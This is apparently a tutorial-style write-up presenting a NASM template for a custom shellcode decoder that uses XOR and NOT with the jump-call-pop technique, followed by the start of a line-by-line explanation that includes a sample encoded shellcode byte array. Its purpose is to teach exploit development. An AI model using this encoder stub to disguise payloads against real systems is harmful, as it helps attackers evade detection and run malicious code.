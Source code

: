 ## Template: nx-decoder.nasm
The assembly instructions for `nx-decoder.nasm` are shown below. Note that some values must be replaced before the decoder will function. Specifically, the `XOR` delimiter value, the `XOR` byte value, and the encoded hexadecimal shellcode should replace the `0xDELIMITER`, `0xXOR_BYTE`, and `SHELLCODE_PLACEHOLDER` text, respectively.

```nasm
; Filename: nx-decoder.nasm
; Author:  Michael Norris

global _start

section .text
_start:
    ; jumps to call_decoder label
	jmp short call_decoder

decoder:
    ; stores shellcode in ESI
	pop esi

decode:
    cmp byte [esi], 0xDELIMITER     ; compares contents at ESI to delimiter
    jz shellcode                    ; jumps to shellcode, if ZF is set
	xor byte [esi], 0xXOR_BYTE      ; performs XOR operation on contents at ESI
    not byte [esi]                  ; performs NOT operation on contents at ESI
	inc esi                         ; increases ESI by 1
	jmp short decode                ; loops over previous instructions

call_decoder:
    ; CALL instruction pushes return memory address to stack
	call decoder
	shellcode: db SHELLCODE_PLACEHOLDER
```

#### Assembly: Explanation
The `JUMP-CALL-POP` technique is used in `nx-decoder.nasm`. As such, execution within `nx-decoder.nasm` jumps around a bit. The explanation following will analyze the assembly instructions in an order that accounts for this execution flow. The assembly code will come first, followed by an explanation of its purpose.

```nasm
_start:
; jumps to call_decoder label
jmp short call_decoder
```

Directly after the `_start` label, the `JMP SHORT call_decoder` instruction is used to jump to the `call_decoder` label. The furthest short jump that is possible using a `JMP SHORT` instruction is +/- 127 bytes away.

```nasm
call_decoder:
; CALL instruction pushes encoded shellcode to stack
call decoder
shellcode: db 0x2a,0xdb,0x4b,0x73,0x34,0x34,0x68,0x73,0x73,0x34,0x79,0x72,0x75,0x92,0xf8,0x4b,0x92,0xf9,0x48,0x92,0xfa,0xab,0x10,0xd6,0x9b,0x7c
```

